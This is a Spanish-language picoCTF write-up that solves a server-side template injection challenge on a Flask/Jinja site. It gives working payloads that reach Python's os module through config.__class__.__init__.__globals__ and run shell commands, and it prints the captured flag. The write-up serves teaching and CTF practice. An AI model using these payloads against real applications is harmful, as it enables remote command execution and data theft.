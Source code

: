 # **Descripción**

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:58435/)!
# **Solución**

Al ingresar al sitio notamos que existe un formulario donde nos dice que queremos anunciar, por la descripción sabemos que esta página está utilizando plantillas.

Como el sitio es de python, normalmente utiliza platillas Jinja, por tanto vamos a inyectar estas plantillas desde el lado del servidor.

Revisamos si la platilla es maleable, mandamos *{{3x3}}* al formulario y la respuesta será 9, por tanto es maleable.

Ahora mandamos un payload para ver si es evaluado.

```
{{''.__class__}}
```
Nos arroja lo siguiente.

```
# <class 'str'>
```
Por tanto es evaluado.

Ahora, podemos construir payloads mas complejos, a partir de esto vamos a obtener la clase del objeto config, ya que en aplicaciones flask, config es una instancia típica de config, que está heredada de una clase base.

Mandamos *{{config.__class__}}*, que nos da como resultado *<class 'flask.config.Config'>*.

Ahora accedemos al método init de la clase config con *{{config.__class__.__init__}}* como si nos devuelve algo, podemos seguir agrandando nuestro payload.

Ahora extraemos las variables globales disponibles para *init*, esto porque regularmente incluye algunos módulos python integrados como OS, la cual es la que nos puede ayudar a ejecutar comandos de manera remota.

Mandamos *{{config.__class__.__init__.__globals__}}* la cual si nos retorna el modulo OS, por tanto ahora pediremos la dirección del ámbito de ese método con *{{config.__class__.__init__.__globals__['os']}}* esto nos arroja que sí está disponible, por tanto sólo utilizaremos *os.popen()* para ejecutar comandos en shell.

Al ejecutar *{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}* nos muestra los siguientes archivos: app.py, flag y requirements.txt.

Por tanto ahora haremos un cat a flag de la siguiente manera.

```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}} 
```
```
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```

Obteniendo así la bandera

# **Notas adicionales**

# **Referencias**
